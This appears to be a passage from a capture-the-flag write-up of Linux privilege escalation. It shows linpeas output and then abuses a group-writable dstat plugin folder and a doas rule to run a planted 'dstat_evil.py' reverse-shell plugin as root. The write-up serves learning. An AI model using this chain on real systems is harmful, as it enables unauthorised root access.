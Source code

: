     /var/crash
    /var/lib/php/sessions
    /var/tmp
    /var/tmp/cloud-init
    /var/www/html/tiny/uploads
    ```

    ```
    ╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files                                                                                                                                                           
    Group player:
    /usr/local/share/dstat
    ```

    ```
    ╔══════════╣ Executable files potentially added by user (limit 70)
    2022-11-17+09:09:15.5479107120 /usr/local/bin/doasedit
    2022-11-17+09:09:15.5439087120 /usr/local/bin/vidoas
    2022-11-17+09:09:15.5399067120 /usr/local/bin/doas
    2022-11-15+21:42:19.3514476930 /etc/grub.d/01_track_initrdless_boot_fallback
    2022-11-15+21:40:43.9906230840 /etc/console-setup/cached_setup_terminal.sh
    2022-11-15+21:40:43.9906230840 /etc/console-setup/cached_setup_keyboard.sh
    2022-11-15+21:40:43.9906230840 /etc/console-setup/cached_setup_font.sh
    ```

    I notice that the `player` group has 777 access to the `/usr/local/share/dstat` folder:
    ```
    drwxrwx---  2 root player 4096 May  4 16:12 dstat
    ```

    I google what `dstat` is and if there are any exploits: [https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-dstat-privilege-escalation/](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-dstat-privilege-escalation/)

    I create a `/usr/local/share/dstat/dstat_evil.py` file with a reverse shell inside.

    I run: `dstat --evil` &#8594; I can get a reverse shell but with my `player` user, I need to see when `root` executes the command or something that increases the privilege.

- I can't see the processes, as shown by linpeas, because the file system `/proc` is mounted with `hidepid=2`.
    
    Back to linpeas output:
    ```
    2022-11-17+09:09:15.5479107120 /usr/local/bin/doasedit
    2022-11-17+09:09:15.5439087120 /usr/local/bin/vidoas
    2022-11-17+09:09:15.5399067120 /usr/local/bin/doas
    ```
    
    The first two binaries have nothing special while the third one has SETUID enabled, I'm looking for useful exploits: [https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/doas/](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/doas/)

    I check if there is a pre-existing configuration: `/usr/local/etc/doas.conf`
    ```
    permit nopass player as root cmd /usr/bin/dstat
    ```

    Ok, here is the way to become `root` that was missing, I can get a reverse shell as `root` by recreating the `dstat_evil.py` plugin with a reverse shell inside and giving the command: `/usr/local/bin/doas /usr/ bin/dstat --evil`